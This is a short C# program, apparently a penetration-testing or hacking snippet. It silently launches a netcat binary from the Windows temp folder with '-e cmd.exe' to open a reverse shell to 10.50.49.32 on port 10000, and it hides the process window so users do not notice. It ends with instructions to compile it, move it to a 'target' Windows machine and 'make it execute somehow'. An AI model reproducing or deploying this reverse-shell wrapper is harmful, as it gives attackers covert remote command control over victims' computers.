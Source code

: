 namespace Wrapper{
    class Program{
        static void Main()

       {
         
         //Creating an Process class object which is imported from System module
          Process proc = new Process();
          //Creating process info telling it instruction on what to do when started in system memory
          ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-cyberjunkie.exe", "10.50.49.32 10000 -e cmd.exe");
         
         
         //restrictig service to create a gui which may make users suspicious thats why disabling it
          procInfo.CreateNoWindow = true;
          //starting the proces
          proc.StartInfo = procInfo;
          proc.Start();

                               
        }
    }
}

  
  
  .......................
  
  compile this with  
  
  > mcs filename.cs
  
  now transfer the exeutable to target windows and make it execute somehow :)))
  
  
















